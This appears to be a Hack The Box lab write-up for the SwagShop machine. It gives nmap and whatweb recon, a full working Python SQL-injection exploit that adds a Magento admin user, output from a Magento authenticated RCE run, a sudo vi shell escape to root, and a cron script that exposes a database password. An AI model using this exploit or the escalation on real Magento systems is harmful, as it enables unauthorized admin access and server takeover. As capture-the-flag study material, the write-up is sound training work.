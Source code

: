 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [SwagShop](https://app.hackthebox.com/machines/SwagShop)

> [!tip]- Spoiler Summary
> This machine is hosting a web commerce site with an SQLi vulnerability that allows an attacker to add an admin-level user, which enables an RCE exploit. Privilege escalation is trivial with `vi`.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Wed Aug  7 13:59:01 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.10.140)
Host is up (0.090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.140], RedirectLocation[http://swagshop.htb/]
http://swagshop.htb/ [200 OK] Apache[2.4.29], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[frontend], IP[10.10.10.140], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```

## RCE

Here's the [exploit for the SQLi to get an admin user](https://www.exploit-db.com/exploits/37977) on the web app:

```python
import requests
import base64
import sys

target = sys.argv[1]

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

# For demo purposes, I use the same attack as is being used in the wild
SQLQUERY="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

# Put the nice readable queries into one line,
# and insert the username:password combinination
query = SQLQUERY.replace("\n", "").format(username="ypwq", password="123")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds ypwq:123".format(target)
else:
    print "DID NOT WORK"
```

```console
$ python2 ./x.py http://swagshop.htb
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

There's an [authenticated RCE available for Magento available from exploit-db](https://www.exploit-db.com/exploits/37811), but I had some problems getting the `mechanize` module working correctly with Python2.7. There's an updated version written for Python3 available at <https://github.com/Hackhoven/Magento-RCE.git>.

```console
$ python3 ./magento-rce-exploit.py http://swagshop.htb/index.php/admin/ 'id'
Form name: None
Control name: form_key
Control name: login[username]
Control name: dummy
Control name: login[password]
Control name: None
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The user flag is readable in the home directory of user `haris`:

```git
www-data@swagshop:/var/www/html$ ls -la /home/haris/user.txt
-rw-r--r-- 1 haris haris 33 Aug  9 10:59 /home/haris/user.txt
```

## PE

```console
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Escaping to a shell from `vi` is trivial with: `:!/bin/sh`

## Post

Life after `root`.

```console
# crontab -l
...
# m h  dom mon dow   command
@reboot /root/.script/update.sh
# cat /root/.script/update.sh
#!/bin/bash
sleep 10
new_date=`date +'%F %T'`
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -Bse "use swagshop; update sales_flat_order set created_at = '$new_date' where state = 'processing';"
```

## Open Questions

I lost a lot of time trying to get the older `python2` exploit working. I was able to install the correct module (`mechanize`) using `python2 -m pip install …` but it still didn't work, for reasons I never got to the bottom of.

